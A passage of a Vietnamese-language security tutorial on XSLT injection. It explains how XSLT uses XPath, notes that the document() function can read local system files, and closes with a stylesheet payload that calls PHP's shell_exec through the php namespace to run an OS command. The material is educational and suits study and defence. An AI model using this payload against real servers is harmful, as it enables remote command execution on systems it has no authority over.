 ```xml 
  </table>
</body>
</html>
</xsl:template>
</xsl:stylesheet>
```

Kết quả khi sử dụng example.xsl lên example.xml:

 [image](https://hackmd.io/_uploads/ryrB0cy26.png)

Để có thể xử lý và render ra được kết quả như trên thì ta cần dùng XSLT processor, giống như để xử lý XML ta cần XML parser thì XSLT cũng vậy.

 [image](https://hackmd.io/_uploads/rkFD0cy3a.png)

### XPath in XSLT

- Để có thể truy vấn dữ liệu trong xml để chuyển sang format khác, XSLT sẽ sử dụng XPATH trong attribute select
  Syntax:

```xml 
<xsl:value-of select="<XPATH>">
```

 [image](https://hackmd.io/_uploads/SkdW1sJhT.png)

### document()

- Ta để ý công dụng của hàm document

 [image](https://hackmd.io/_uploads/r1iBJoy26.png)

- Nó có thể đi ra ngoài để lấy node-set về

 [image](https://hackmd.io/_uploads/r1pu1i1ha.png)

- sẽ ra sao nếu ta gọi đến một file trong hệ thống?

 [image](https://hackmd.io/_uploads/B1bMbo1n6.png)

kết quả

 [image](https://hackmd.io/_uploads/S1DxWjkha.png)

### RCE

XSLT còn cho phép ta gọi đến các PHP functions thông qua namespace. Vậy có nghĩa là nếu attacker gọi các hàm nhạy cảm như các hàm thực thi OS command thì sẽ rất nguy hiểm

```xml 
<?xml version ="1.0" encoding="UTF-8"?>
  <xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:php="http://php.net/xsl">

      <xsl:output method="html" />
      <xsl:template match="/">
          <xsl:value-of select="php:function('shell_exec', 'id')" />
      </xsl:template>
  </xsl:stylesheet>
```

## Tham khảo thêm

- https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/
